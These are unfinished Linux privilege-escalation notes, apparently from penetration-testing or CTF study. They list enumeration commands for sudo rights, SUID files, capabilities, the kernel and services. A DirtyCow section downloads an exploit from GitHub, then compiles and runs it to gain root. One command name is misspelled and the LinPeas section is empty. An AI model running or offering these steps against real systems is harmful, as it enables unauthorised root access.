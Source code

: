 # Privilege escalation \[in progress]

### OS Info

```bash
lsb_release -a
getconf LONG_BIT # 32 or 64 bits linux
cat /etc/os-release 
cat /etc/redhat-release # redhat  dists
```

### SUDO Perms && SUID Files && Capabilities

<pre class="language-bash"><code class="lang-bash"><strong>sudo -l # si aparece algo -> https://gtfobins.github.io/
</strong><strong>
</strong><strong>find / \-perm -4000 2>/dev/null # Suid
</strong><strong>getcap -r / 2>/dev/null # caps
</strong><strong>
</strong><strong>find / \-user &#x3C;user> 2>/dev/null # buscar archivos q pertezcan al user x
</strong></code></pre>

### Kernel enumerate

```bash
cat /proc/version
uname -a
+------------+
searchexploit "Linux Kernel X.X"
```

### Services Running

```bash
systemctl --type=service --state=running
systemd-cgtop
ps aux
ps -ef
top -n 1
service --status-all
```

#### DirtyCow (Linux Kernel <= 3.19.0-73.8)

[https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)

```bash
wget https://github.com/FireFart/dirtycow/blob/master/dirty.c
gcc -pthread dirty.c -o dirty -lcrypt
./dirty
./dirty <new-pass>
```

### LinPeass

```
```





